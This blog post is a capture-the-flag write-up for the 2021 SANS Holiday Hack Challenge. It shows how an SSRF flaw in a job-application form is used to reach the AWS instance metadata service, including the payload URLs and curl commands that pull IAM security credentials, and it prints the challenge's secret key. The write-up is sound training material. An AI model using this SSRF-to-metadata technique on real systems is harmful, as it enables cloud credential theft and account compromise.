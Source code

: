 ```yaml
---
title:  "Objective 10: Now Hiring! - 2021 SANS Holiday Hack Challenge"
date:   "2022-01-05 00:010:00 -0800"
categories: HolidayHack2021
header:
 teaser: /assets/images/HolidayHack2021/application_submitted.png
---
```


This will be some more web app pen testing, this time on a job portal.

[Play the 2021 SANS Holiday Hack Challenge](https://2021.kringlecon.com/invite)

## Objective
>What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)?

## Hint
- The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.
- 
## Enumeration
Going to [https://apply.jackfrosttower.com/](https://apply.jackfrosttower.com/) takes us to a job portal for Jack Frost's corporation. There are a few obvious pages:
- The home page: [https://apply.jackfrosttower.com/](https://apply.jackfrosttower.com/)
- Opportunties page: [https://apply.jackfrosttower.com/?p=opportunities](https://apply.jackfrosttower.com/?p=opportunities)
- Application form: [https://apply.jackfrosttower.com/?p=apply](https://apply.jackfrosttower.com/?p=apply)
- About page:  [https://apply.jackfrosttower.com/?p=about](https://apply.jackfrosttower.com/?p=about)

The page that seems the most interesting is the [application form](https://apply.jackfrosttower.com/?p=opportunities). There a a few interesting fields in this form that seem like the best avenues for exploitation, specifically the "Resume" upload and "URL to your public NLBI report" fileds. If we upload a resume that's actually an executable, would it be automatically ran? My guess is probably not. The site might be built to automatically check the NLBI report link though, in which case we could have the server check URLs for us and hopefully report back the results.

Let's try filling in the form and seeing what happens. Taking the hint from the IMDS Exploration challenge, let's put in `http://169.254.169.254/latest/meta-data/` as the NLBI URL.

This returns us a page that looks like this:

![Application Submitted Page](/assets/images/HolidayHack2021/application_submitted.png)

I wonder if that broken image has anything interesting in it. Let's right-click the page and select view source. We can see that the image source is `images/First Last.jpg` (I entered my name as "First Last" in the form), so it was dynamically created based on our submission. Going to [https://apply.jackfrosttower.com/images/First%20Last.jpg](https://apply.jackfrosttower.com/images/First%20Last.jpg) returns a page, but Firefox tells me that the image can't be displayed because there are errors. Let's try to curl it instead to get the raw data:

```bash
curl https://apply.jackfrosttower.com/images/First%20Last.jpg
```

output:
```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
iam/security-credentials/jf-deploy-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
mac
network/interfaces/macs/0e:49:61:0f:c3:11/device-number
network/interfaces/macs/0e:49:61:0f:c3:11/interface-id
network/interfaces/macs/0e:49:61:0f:c3:11/ipv4-associations/192.0.2.54
network/interfaces/macs/0e:49:61:0f:c3:11/ipv6s
network/interfaces/macs/0e:49:61:0f:c3:11/local-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/local-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/mac
network/interfaces/macs/0e:49:61:0f:c3:11/owner-id
network/interfaces/macs/0e:49:61:0f:c3:11/public-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/public-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/security-group-ids
network/interfaces/macs/0e:49:61:0f:c3:11/security-groups
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-id
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv6-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-id
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv6-cidr-blocks
placement/availability-zone
placement/availability-zone-id
placement/group-name
placement/host-id
placement/partition-number
placement/region
product-codes
public-hostname
public-ipv4
public-keys/0/openssh-key
reservation-id
security-groups
services/domain
services/partition
spot/instance-action
spot/termination-time
```

And that's the response from `http://169.254.169.254/latest/meta-data/`! Great! Now all we have to do is figure out how to get the "secret access key", which is part of AWS' IAM roles. Looking through the list above, `iam/security-credentials/jf-deploy-role` seems like the place to go.

Easy enough, just resubmit the application with `http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role` as the URL instead (keeping the name the same in the form if you want to use the same curl command), then curl the "image" again:
```bash
curl https://apply.jackfrosttower.com/images/First%20Last.jpg
```

We get this in response:

```json
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```

**Answer:** CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX